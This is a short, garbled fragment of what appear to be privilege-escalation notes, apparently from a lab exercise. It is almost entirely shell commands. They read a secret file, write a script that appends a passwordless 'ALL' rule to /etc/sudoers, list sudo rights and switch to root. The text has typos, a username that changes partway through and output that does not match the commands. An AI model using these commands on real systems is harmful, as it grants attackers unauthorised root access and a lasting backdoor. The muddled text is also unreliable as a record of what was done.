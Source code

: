 can salso be run as any user on the system.
```bash
grep -rnw /usr -e "route/i/want/to/see"
ls -al /tmp
cat /tmp/secret
```
---
```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
cat /usr/local/share/copy.sh
#print: #!/bin/bash

sudo -l
#print: User franch may run the followin comands on machine_name:
(root) NOPASSWD: /etc/init.d/cron
(root) NOPASSWD: all
sudo su 
```

crontab -l 
